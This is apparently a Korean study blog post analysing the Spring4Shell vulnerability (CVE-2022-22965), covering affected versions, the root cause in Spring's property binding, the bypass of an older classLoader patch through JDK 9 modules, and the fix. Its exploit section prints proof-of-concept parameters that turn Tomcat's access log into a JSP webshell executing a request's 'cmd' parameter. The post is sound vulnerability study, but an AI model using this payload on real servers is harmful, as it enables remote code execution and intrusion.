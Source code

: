 ```yaml
---
title: "CVE-2022-22965 (Spring4Shell) 1-day 분석"
date: 2023-12-17 +0900
categories: [Study, 1-day Analysis]
tags: ['CVE-2022-22965', '1-day', 'springframework']
---
```

## 1. Abstract

- Request 파라미터에 `class` 를 이용하여 `classLoader` 접근할 수 있고, 이를 통해 Log 생성 설정을 변경시킬 수 있으며 이를 통해 WebShell 생성을 하고 RCE가 가능하다.

## 2. Vulnerability Analysis

### 2.1 Affect version

- JDK (Java Development Kit) 9 버전 이상
- Spring Framework : 5.3.17 및 5.2.19 이하 버전 (배포 방식 war)

### 2.2 Vulnerability Root Cause

HTTP Request를 보내면 Spring Framework 내부에서는 `bindRequestParameters()` 메소드를 호출한다. 

```java
if (bindingResult == null) {
	WebDataBinder binder = binderFactory.createBinder(webRequest, attribute, name);
	if (binder.getTarget() != null) {
	    if (!mavContainer.isBindingDisabled(name)) {
	        this.bindRequestParameters(binder, webRequest);
	    }
```

`bindRequestParameters()` 는 파라미터로 받은 객체의 속성을 가져오기 위해 내부에서 `getCachedIntrospectionResults()` 메소드를 호출한다.

아래는 `getCachedIntrospectionResults()` 메소드를 호출하기까지의 콜 스택이다.

![Untitled](/assets/img/posts/2023-12-28-CVE-2022-22965-(Spring4Shell)-1-day-분석/Untitled.png)

Spring4Shell 취약점은 이 `getCachedIntrospectionResults()` 메소드를 호출할 때 발생한다. 

```java
private CachedIntrospectionResults getCachedIntrospectionResults() {
    if (this.cachedIntrospectionResults == null) {
        this.cachedIntrospectionResults = CachedIntrospectionResults.forClass(this.getWrappedClass());
    }

    return this.cachedIntrospectionResults;
}
```

아래의 화면을 보면 `getCachedIntrospectionResults()` 메소드는 wrapping된 객체를 가져오는 데 이 때 `class` 객체도 같이 포함이 되어 있다. 따라서 HTTP Request를 보내는 것 만으로 `class` 객체에 접근할 수 있다.

![Untitled](/assets/img/posts/2023-12-28-CVE-2022-22965-(Spring4Shell)-1-day-분석/Untitled%201.png)

## 3. Exploit

### 3.1 Mitigation & Bypass

`class` 속성을 사용할 수 있지만 CVE-2010-1622 취약점 패치 때문에 바로 `classLoader` 를 호출할 수 없다. 따라서 JDK 9에서 추가된 module 기능을 이용해서 `class.module.classLoader` 와 같이 우회하여 `classLoader` 를 호출해주어야 한다.

#### CVE-2010-1622

- 해당 취약점은 classLoader를 호출하여 다른 클래스들을 연쇄적으로 호출함으로써 최종적으로 원격 코드 실행(RCE)까지 가능한 취약점이다.

해당 취약점을 방어하기 위해서 `PropertyDescriptor` 값에서 classLoader와 protectionDomain 문자열이 있는지 검증하는 로직이 추가되었다.

```java
// This call is slow so we do it once.
PropertyDescriptor[] pds = this.beanInfo.getPropertyDescriptors();
for (PropertyDescriptor pd : pds) {
	if (Class.class == beanClass &&
			("classLoader".equals(pd.getName()) ||  "protectionDomain".equals(pd.getName()))) {
		// Ignore Class.getClassLoader() and getProtectionDomain() methods - nobody needs to bind to those
		continue;
	}
```

2010년에 패치되었던 취약점이 Spring4Shell에서 다시 이용된 이유는 JDK 9가 배포가 되면서 `module` 기능을 같이 배포했기 때문이다.

기존 CVE-2010-1622 에서 익스플로잇하기 위해서 `class.classLoader` 호출한 것을 JDK 9에서는 `class.getModule()` 메소드를 이용하여 `class.module.classLoader` 를 호출함으로서 기존에 패치되었던 로직을 우회할 수 있다.

### 3.2 Exploit Method

#### WebShell Create

`class` 속성을 이용하여  `classLoader` 를 호출하고 Apache Tomcat의 Log 저장 설정을 변경하기 위해서 최종적으로 `getFirst()` 메소드를 호출하여 `AccessLogValve` 의 속성들을 변경시켜주어 webshell 파일을 생성한다.

webshell을 만들기 위해서 변경시켜줄 속성은 다음과 같다.

| Attribute | 설명 |
| --- | --- |
| fileDateFormat | 액세스 로그 파일 이름에서 사용자 지정 타임스탬프를 허용한다. 형식이 지정된 타임스탬프가 변경될 때 마다 파일이 로테이트 된다. |
| directory | 로그 파일이 생성될 directory의 절대 경로 또는 상대 경로가 저장되는 속성, 이 속성이 지정되지 않을 때 기본값은 $CATALINA_BASE의 상대경로로 지정된다. |
| pattern | 기록할 요청 및 응답, 또는 표준 형식을 선택하기 위해 다양한 정보 필드를 식별하는 포맷 레이아웃을 지정하는 속성이다. |
| prefix | 각 로그 파일 이름의 접두사를 지정하는 속성이다. 기본값은 “access_log” 이다. |
| suffix | 각 로그 파일의 이름 끝에 추가되는 접미사를 지정하는 속성이다. |

아래는 `AccessLogValve` 속성을 변경시키는 Spring4Shell POC 코드의 일부이다.

```python
log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
              f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
              f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
              f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```

- `log_pattern` : `pattern` 속성을 사용해 webshell 내용을 입력한다.
- `log_file_suffix` : `suffix` 확장자를 `.jsp` 로 변경한다.
- `log_file_dir` : `directory` 속성을 사용해 log 파일이 저장될 위치를 지정한다.
- `log_file_prefix` : `prefix` 속성을 사용해 log 파일의 이름을 지정한다.
- `log_file_date_format` : `fileDateFormat` 을 사용해 파일 로테이트 시간을 해제한다.

속성 값들이 변경되는 것을 확인하고자 POC 코드를 실행하기 전의 `AccessLogValve` 속성 값들을 확인하였다.

![Untitled](/assets/img/posts/2023-12-28-CVE-2022-22965-(Spring4Shell)-1-day-분석/Untitled%202.png)

POC 코드를 실행시키고 나서 `fileDataFormat`, `directory`, `pattern`, `prefix`, `suffix` 값이 변경된 것을 확인할 수 있다.

![Untitled](/assets/img/posts/2023-12-28-CVE-2022-22965-(Spring4Shell)-1-day-분석/Untitled%203.png)

POC 코드를 실행시킨 후 webshell 파일이 정상적으로 생성되는 것을 확인이 되었고 webshell 또한 정상적으로 동작이 되었다.

![Untitled](/assets/img/posts/2023-12-28-CVE-2022-22965-(Spring4Shell)-1-day-분석/Untitled%204.png)

webshell을 통해 정상적으로 RCE가 동작 되는 것을 확인했다.

![Untitled](/assets/img/posts/2023-12-28-CVE-2022-22965-(Spring4Shell)-1-day-분석/Untitled%205.png)

## 4. Patch

Spring 측에서는 Spring core에서 `CachedIntrospectionResults` 메소드에서 `classLoader` 의 호출을 막기 위해 `classLoader` 비교 구문을 강화했다. 해당 로직을 강화함으로써 `classLoader` 를 이용한 메소드 호출을 방지하였다.

![Untitled](/assets/img/posts/2023-12-28-CVE-2022-22965-(Spring4Shell)-1-day-분석/Untitled%206.png)

## 5. Reference

> [Spring4Shell(CVE-2022-22965) 취약점 원인분석 및 대응방안](https://www.igloo.co.kr/security-information/spring4shellcve-2022-22965-취약점-원인분석-및-대응방안/)

> [SpringShell RCE vulnerability: Guidance for protecting against and detecting CVE-2022-22965 - Microsoft Security Blog](https://www.microsoft.com/en-us/security/blog/2022/04/04/springshell-rce-vulnerability-guidance-for-protecting-against-and-detecting-cve-2022-22965/)

> [Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring - LunaTrace](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)

> [https://docs.spring.io/spring-framework/docs/3.2.5.RELEASE_to_3.2.6.RELEASE/Spring Framework 3.2.6.RELEASE/org/springframework/beans/BeanWrapperImpl.html#getCachedIntrospectionResults()](https://docs.spring.io/spring-framework/docs/3.2.5.RELEASE_to_3.2.6.RELEASE/Spring%20Framework%203.2.6.RELEASE/org/springframework/beans/BeanWrapperImpl.html#getCachedIntrospectionResults())

> [StandardPipeline (Apache Tomcat 8.5.98 API Documentation)](https://tomcat.apache.org/tomcat-8.5-doc/api/org/apache/catalina/core/StandardPipeline.html#getFirst())

> [Apache Tomcat 9 Configuration Reference (9.0.85) - The Valve Component](https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html#Access_Log_Valve/Attributes)

> [Comparing v5.3.17...v5.3.18 · spring-projects/spring-framework](https://github.com/spring-projects/spring-framework/compare/v5.3.17...v5.3.18#diff-de34d8ca8ee09e89bce68a491958bcc09197c49243aa2db6d981ecaa035b2447)

> [](https://github.com/tweedge/springcore-0day-en/blob/main/ANALYSIS_EN.md)

> [ServletContext (Java EE 6 )](https://docs.oracle.com/javaee/6/api///javax/servlet/ServletContext.html#getContext(java.lang.String))

> [https://tomcat.apache.org/tomcat-9.0-doc/config/context.html](https://tomcat.apache.org/tomcat-9.0-doc/config/context.html)